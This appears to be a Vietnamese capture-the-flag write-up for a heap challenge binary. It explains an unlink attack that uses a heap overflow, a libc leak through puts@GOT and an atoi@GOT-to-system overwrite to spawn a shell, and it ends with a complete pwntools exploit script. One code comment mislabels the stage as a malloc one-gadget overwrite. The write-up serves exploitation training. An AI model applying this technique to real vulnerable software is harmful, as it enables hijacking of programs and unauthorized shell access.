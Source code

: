 # Heap_Exploit - Heap4

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
pwn4_ul_patched: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-2.23.so, for GNU/Linux 2.6.32, BuildID[sha1]=5b72263ca214a77e25ca46bec6ac2ac2c91ce268, not stripped

```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x3ff000)
RUNPATH:  b'.'
```

Tiếp đến chạy thử chương trình:

![run.png](images/run.png)

Ở đây chúng ta có 5 options sử dụng heap, mà tên file là `pwn4_ul` 

-> `unlink_heap_exploit`

# 2. Khai thác

- Bước 1: Tạo 5 chunk có kích thước lớn để đưa vào 

```
create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")
```

Chunk cấp phát của chúng ta cần > 0x78 để khi free có thể vào được `unsortedbin`

- Bước 2: Tạo 1 fake chunk

```
store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)
edit(3, 0x90, payload)
delete(4)
```

Do ở hàm edit có thể overflow được nên ta sẽ lợi dùng heap_overflow ở đây.

Chúng ta tạo fake chunk tại chunk_3

Khi đó fake chunk tại chunk 3 sẽ trông như sau:

![fake.png](images/fake.png)

Với `0x6020e0` là fd hay forwarding pointer dùng để trỏ tới chunk tiếp theo trong free list. 

Sau đó ta free fake chunk đó tại vị trí thứ 4:

![fake2.png](images/fake2.png)

Nhìn vào free list `unsortedbin`

Chunk tiếp theo là `0x78a1c1` (địa chỉ của fake_chunk ta vừa giải phóng). Khi đó địa chỉ `0x6020e0` sẽ trỏ đến `0x78a1c1`.

![fake1.png](images/fake1.png)

Tiếp theo nhìn vào địa chỉ `0x78a1c1` là phần data của chunk thứ 3

-> Chúng ta sẽ sửa data chunk_3 và ghi vào địa chỉ `0x6020e0` 

- Bước 3: Leak libc_base:

```
edit(3, 0x8, p64(0x602020))
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))
```
Tại sao chúng ta lại ghi vào `0x6020e0`?

![store1.png](images/store1.png)

Đây là địa chỉ của `store`. Nơi đây lưu địa chỉ của chunk's data

Và đầu của địa chỉ này là data của chunk_0.

Khi ta ghi đè vào đây bằng `0x602020` là địa chỉ của `puts@got.plt` 

-> Khi show heap_0 sẽ lấy giá trị tại đây ra và leak được libc.

- Bước 4: Ghi đè `system` vào `atoi_got`

```
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")
```

Ở hàm edit_heap() có 1 hàm readInt() mà return atoi(nptr), ở đây `nptr` là ta nhập vào 

-> Ghi đè atoi() thành system() rồi nhập `/bin/sh` để thực thi.

Như đã nói ở trên, ở vị trí data của chunk_3 là ta sẽ ghi được vào địa chỉ `0x6020e0`. Data chunk_0 ta sẽ có địa chỉ tại `0x6020e0`

-> Khi đó ta ghi data chunk_0 vào data chunk_3

-> Ghi địa chỉ hàm system() vào atoi_got

# Full code:

```
from pwn import*
context.log_level       = "DEBUG"
context.arch            = "amd64"

elf = context.binary = ELF('./pwn4_ul_patched', checksec=False)

p = process("./pwn4_ul_patched")

#gdb.attach(p, gdbscript='''
#vis
#''')

def create(idx,size,data):
    p.sendafter(b">\n",b"1")
    p.sendafter(b"Index:",str(idx))
    p.sendafter(b"Input size:", str(size))
    p.sendafter(b"Input data:",data)

def show(idx):
    p.sendafter(b">\n",b"2")
    p.sendafter(b"Index:",str(idx))

def edit(index,newsize,data):
    p.sendafter(b">\n",b"3")
    p.sendafter(b"Input index:", str(index))
    p.sendlineafter(b"Input newsize:", str(newsize))
    p.sendlineafter(b"Do you want to change data (y/n)?\n",b"y")
    p.sendafter(b"Input data:",data)

def delete(idx):
    p.sendafter(b">\n",b"4")
    p.sendafter(b"Input index:", str(idx))

create(0, 0x80 ,b"\x01")
create(1, 0x80, b"\x02")
create(2, 0x80, b"\x03")
create(3, 0x80, b"\x04")         #This is the chunk we use to make fake chunk 4
create(4, 0x80, b"\x05")
create(5, 0x80, b"\x06")

store=0x6020e0
payload=p64(0)+p64(0x80)+p64(store)+p64(store+8)+b"\x00"*0x60+p64(0x80)+p64(0x90)

edit(3, 0x90, payload)

delete(4)								#free(4) but 3 in unsoftedbin because of payload made the prog think the 3 th is unsortedbin

#### stage3: leak libc ###########################################################
edit(3, 0x8, p64(0x602020))				#now all we edit chunk(3) is edit(0x6020e0). 0x6020e0 is the address of all chunk's data address
show(0)
p.recvuntil(b"Data = ")
libc=int.from_bytes(p.recv(6),"little")-424032
log.info("[+]libc base"+hex(libc))

#### stage 4 overwrite malloc with onegadget#######
atoi_got=0x602068
system=libc+0x3f550
edit(3, 8,p64(atoi_got))				#over_write atoi_got to system (readInt() func)
edit(0, 8,p64(system))
p.sendafter(b">\n",b"/bin/sh")

p.interactive()
```


